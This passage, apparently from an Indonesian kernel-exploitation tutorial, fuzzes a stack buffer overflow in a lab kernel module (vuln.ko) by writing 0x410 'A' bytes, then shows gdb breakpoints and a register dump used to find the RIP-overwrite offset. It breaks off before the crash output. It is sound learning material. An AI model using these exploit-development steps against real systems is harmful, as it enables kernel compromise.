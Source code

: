 ```bash
```

seperti saat melakukan fuzzing buffer overflow pada userland, di kerneland juga kita mencoba untuk menghitung berapa byte yang diperlukan sampai kita mampu menimpa register RIP.

jadi, kita akan mengubah ukuran buff pada kode eksploit kita menjadi 

```c
 char buff[0x410];
 memset(buff,0x41,sizeof(buff));
 ...
 write(fd,buff,0x410);
```

karena kita ingin mengetahui dalam berapa byte kita bisa mengontrol register RIP. jadi saya menggunakan ida untuk mengetahui address dari copy_from_user yang ada didalam fungsi module_write. dan juga pada bagian intruksi retn yang ada pada offset 0xffffffffc000020a 

<img src="{{ site.url }}{{ site.baseurl }}/images/ida_write.png" alt="">

jadi, kita akan memberi breakpoint pada address 0xffffffffc0000190, karena address base module vuln.ko adalah 0xffffffffc0000000 ditambah dengan offset copy_from_user yang terletak pada 0x190.

```bash
/ # cat /proc/modules

vuln 16384 0 - Live 0xffffffffc0000000 (O)
/ # 

```

kita akan pasang breakpoint kembali pada gdb

```bash
b *0xffffffffc0000190 dan b *0xffffffffc000020a
```
lalu picu module_write dengan cara menjalankan exploit kita, dan ini hasilnya:

```bash
*RAX  0xffffc90000557aa8 ◂— 0
*RBX  0xffff8880033a2000 ◂— 0
*RCX  0x7ffed2353170 ◂— 0x4141414141414141 ('AAAAAAAA')
*RDX  0x410
*RDI  0xffffc90000557aa8 ◂— 0
*RSI  0x7ffed2353170 ◂— 0x4141414141414141 ('AAAAAAAA')
*R8   0xffffffff81ea4608 ◂— 0xc0000000ffffefff
*R9   0x4ffb
*R10  0xfffff000
*R11  0x3fffffffffffffff
*R12  0x410
 R13  0
*R14  0x7ffed2353170 ◂— 0x4141414141414141 ('AAAAAAAA')
*R15  0xffffc90000557ef8 ◂— 0
*RBP  0xffffc90000557ea8 —▸ 0xffffc90000557ee8 —▸ 0xffffc90000557f20 —▸ 0xffffc90000557f30 —▸ 0xffffc90000557f48 ◂— ...
*RSP  0xffffc90000557a88 —▸ 0xffffc90000557ef8 ◂— 0
*RIP  0xffffffffc0000190 ◂— 0xc08548c125c17be8
```
tekan tombol ```c``` dan qemu akan menampilkan pesan kesalahan lagi:
